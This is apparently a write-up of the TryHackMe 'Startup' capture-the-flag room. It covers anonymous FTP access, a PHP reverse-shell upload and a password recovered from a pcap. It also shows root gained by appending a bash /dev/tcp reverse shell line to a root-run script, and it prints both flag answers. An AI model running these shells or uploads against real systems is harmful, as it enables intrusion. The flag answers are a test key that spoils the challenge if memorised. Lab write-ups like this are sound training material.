 # [Startup](https://tryhackme.com/room/startup)

> Abuse traditional vulnerabilities via untraditional means.

## Scanning

first, we scan with nmap

```
nmap -A -T4 10.10.86.86
```

![image](https://user-images.githubusercontent.com/90561566/202391255-8dc00608-6faf-48b9-9685-4a30d1db64a7.png)

we can see 3 open ports are ftp (21), ssh (22) and http (80)

the most notable is ftp

![image](https://user-images.githubusercontent.com/90561566/202391799-6ad13366-75a7-4ae3-9cb2-f0ba4fc3ba61.png)

## FTP

```
ftp 10.10.86.86
Name (10.10.86.86:admin): anonymous
Password:
```

![image](https://user-images.githubusercontent.com/90561566/202393023-01179ee1-19c6-41de-8c15-8ecf2c31276c.png)

you maybe get an error like this

![image](https://user-images.githubusercontent.com/90561566/202394018-c2ac2dfa-adbc-4a7f-88e0-bc2badaa43b9.png)

the solution is `pass` mode on

![image](https://user-images.githubusercontent.com/90561566/202394119-34cb6715-5de9-45a8-b055-3b79cb627a68.png)

download all files to local and exit

```
get .test.log
get ftp
get important.jpg
get notice.txt
```

nothing here

![image](https://user-images.githubusercontent.com/90561566/202395916-1b4c32e9-2d9b-4ec1-a7d6-1f758dbb431c.png)

important.jpg

![image](https://user-images.githubusercontent.com/90561566/202396326-be353f36-eda8-4844-8101-532a4d1c2f16.png)

## HTTP

quick look at website

![image](https://user-images.githubusercontent.com/90561566/202397127-9841a316-e714-4bf0-81b8-a795da27cb3f.png)

nothing much here

![image](https://user-images.githubusercontent.com/90561566/202397328-5d64db2d-6ff3-48c6-a4cb-481a01c75e58.png)

## Enumeration

scan directories with gobuster

```
gobuster dir -u http://10.10.86.86/ -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://user-images.githubusercontent.com/90561566/202398516-22378b17-b66c-44be-8805-d112a4a1e4f3.png)

go to /files

![image](https://user-images.githubusercontent.com/90561566/202399145-c8b89bf2-d1a9-4f4a-bfb0-fd3a6410e5d6.png)

it's the interface of ftp

## Exploitation

prepare a web shell and change to your ip

```
cp /usr/share/webshells/php/php-reverse-shell.php reverse.php
vi reverse.php
```

let's go back to fpt and upload our shell

```
cd ftp
put reverse.php
```

![image](https://user-images.githubusercontent.com/90561566/202400688-dac15d49-fa39-445e-8be5-076656d4642c.png)

now we can see our shell here

![image](https://user-images.githubusercontent.com/90561566/202400761-176a6a53-185d-48b3-9fd8-a9359dd4cb08.png)

create listener and open file on browser

```
nc -vlnp 1234
python -c 'import pty;pty.spawn("/bin/bash")'
```

![image](https://user-images.githubusercontent.com/90561566/202403261-dc874bcd-546b-431a-9da8-364ccfa5054a.png)

and the secret spicy soup recipe is `love`

![image](https://user-images.githubusercontent.com/90561566/202403567-a10149c0-fd42-41fa-923f-f4856d35d437.png)

let's see what in 2 suspicious folders here

![image](https://user-images.githubusercontent.com/90561566/202404109-b7fc3f73-c656-4fb9-adb5-9037b217f2b1.png)

hmm, a pcapng file, i will take it back to research

```
cp /incidents/suspicious.pcapng /var/www/html/files/ftp/
```

![image](https://user-images.githubusercontent.com/90561566/202405450-17aa3512-4d2e-4c2e-90f1-f0a7f801dd0e.png)

![image](https://user-images.githubusercontent.com/90561566/202652583-89a53d9d-01f1-440f-a574-edefe8a19a67.png)

## Cracking

open captured file with wireshark

```
wireshark -r ./Downloads/suspicious.pcapng 
```

![image](https://user-images.githubusercontent.com/90561566/202406829-5de606d7-538a-43a4-9617-61d754207602.png)

our concern should be http protocol, i see someone has request a web shell in the past

![image](https://user-images.githubusercontent.com/90561566/202407904-4b2186e3-567b-48fa-bf75-39a635033ebb.png)

let's take a look at tcp traffic 4444 dump it all out to plain text

![image](https://user-images.githubusercontent.com/90561566/202653302-a4cf17c3-b7a9-4d46-8cbc-3461e8e3e445.png)

after lookup, i can see here is the password for lennie

![image](https://user-images.githubusercontent.com/90561566/202412311-520555ec-70b3-4438-8657-bacbe2c1416d.png)

or you can use `strings` if you don't familiar with wireshark

```
strings suspicious.pcapng
```

![image](https://user-images.githubusercontent.com/90561566/202652851-4eeee1dc-69fb-4cba-92f1-594b6ae0376e.png)

```
su lennie
c4ntg3t3n0ughsp1c3
```

![image](https://user-images.githubusercontent.com/90561566/202412520-ce00699b-cca7-4cd4-9f3a-74a7996e6aa5.png)

flag here

![image](https://user-images.githubusercontent.com/90561566/202412792-71e3fea3-c7e4-49ed-91fb-37422a35e690.png)

| Flag | user.txt |
| --- | --- |
| Answer | THM{03ce3d619b80ccbfb3b7fc81e46c0e79} |

## Privilege Escalation

there is a scripts folder

![image](https://user-images.githubusercontent.com/90561566/202413237-9c3ac792-01fe-41c0-9663-10a8a9b6c774.png)

this file will run with root permission which is one key of privilege

![image](https://user-images.githubusercontent.com/90561566/202413562-ffb230c2-1725-48a0-8eb2-20b79d12204e.png)

it also run a file with lennie permission

![image](https://user-images.githubusercontent.com/90561566/202415242-39b20879-3392-446a-a212-7e1e929e9b92.png)

create a reverse shell

```
echo "bash -i >& /dev/tcp/10.8.0.74/4444 0>&1" >> /etc/print.sh
```

open netcat and wait it back

```
nc -vlnp 4444
```

![image](https://user-images.githubusercontent.com/90561566/202850268-cc928bc4-fb11-435f-a407-c76efe9868d1.png)

flag here

![image](https://user-images.githubusercontent.com/90561566/202850291-a1f6999f-c1d5-4ad5-b59e-5b4e2b141c3e.png)

| Flag | root.txt |
| --- | --- |
| Answer | THM{f963aaa6a430f210222158ae15c3d76d} |
